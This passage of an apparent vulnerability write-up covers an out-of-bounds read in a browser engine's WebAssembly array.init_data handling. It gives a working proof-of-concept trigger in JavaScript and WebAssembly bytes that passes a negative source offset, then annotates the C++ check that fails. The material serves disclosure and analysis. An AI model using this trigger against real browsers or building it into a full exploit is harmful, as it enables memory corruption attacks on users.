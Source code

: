 ## PoC

The commit includes code for testing.
```js
/*
(module
  (memory (export "memory") 1)
  (type $vec (array (mut i32)))
  (data $data0 "1234")
  (func $main(result (ref null $vec))
    (local $arr(ref null $vec))
    (local.set $arr (array.new_default $vec (i32.const 4)))
    (array.init_data $vec $data0
      (local.get $arr)
      (i32.const 0)
      (i32.const -2)
      (i32.const 1))
    (local.get $arr)
  )
  (export "main" (func $main))
)
 */
var wasm_code = new Uint8Array([0x00,0x61,0x73,0x6d,0x01,0x00,0x00,0x00,0x01,0x89,0x80,0x80,0x80,0x00,0x02,0x5e,0x7f,0x01,0x60,0x00,0x01,0x63,0x00,0x03,0x82,0x80,0x80,0x80,0x00,0x01,0x01,0x05,0x83,0x80,0x80,0x80,0x00,0x01,0x00,0x01,0x07,0x91,0x80,0x80,0x80,0x00,0x02,0x06,0x6d,0x65,0x6d,0x6f,0x72,0x79,0x02,0x00,0x04,0x6d,0x61,0x69,0x6e,0x00,0x00,0x0c,0x81,0x80,0x80,0x80,0x00,0x01,0x0a,0xa0,0x80,0x80,0x80,0x00,0x01,0x9a,0x80,0x80,0x80,0x00,0x01,0x01,0x63,0x00,0x41,0x04,0xfb,0x07,0x00,0x21,0x00,0x20,0x00,0x41,0x00,0x41,0x7e,0x41,0x01,0xfb,0x12,0x00,0x00,0x20,0x00,0x0b,0x0b,0x87,0x80,0x80,0x80,0x00,0x01,0x01,0x04,0x31,0x32,0x33,0x34]);
var wasm_module = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_module);
var f = wasm_instance.exports.main;
try {
    f();
} catch {
}
```

This is the code where `arrayInitData(..)` is called with `srcOffset = -2` and `size = 1`. The calculation `0xfffffffe + 0x1 = 0xffffffff` does not cause a Uint32 overflow, so it passes the `lastSrcElementIndexChecked.hasOverflowed()` check.  

The check for `srcOffset` is performed in the `copyDataSegment(..)` function.

```cpp
bool JSWebAssemblyInstance::copyDataSegment(JSWebAssemblyArray* array, uint32_t segmentIndex, uint32_t offset, uint32_t lengthInBytes, uint8_t* values)
{
    // Fail if the data segment index is out of bounds
    RELEASE_ASSERT(segmentIndex < module().moduleInformation().dataSegmentsCount());
    // Otherwise, get the `segmentIndex`th data segment
    const Segment::Ptr& segment = module().moduleInformation().data[segmentIndex];
    const uint32_t segmentSizeInBytes = m_passiveDataSegments.quickGet(segmentIndex) ? segment->sizeInBytes : 0U;

    // Caller checks that the (offset + lengthInBytes) calculation doesn't overflow
    if ((offset + lengthInBytes) > segmentSizeInBytes) {    // [1]
        // The segment access would overflow; the caller must handle this error.
        return false;
    }
    // If size is 0, do nothing
    if (!lengthInBytes)
        return true;
    // Cast the data segment to a pointer
    const uint8_t* segmentData = &segment->byte(offset);    // [2]
```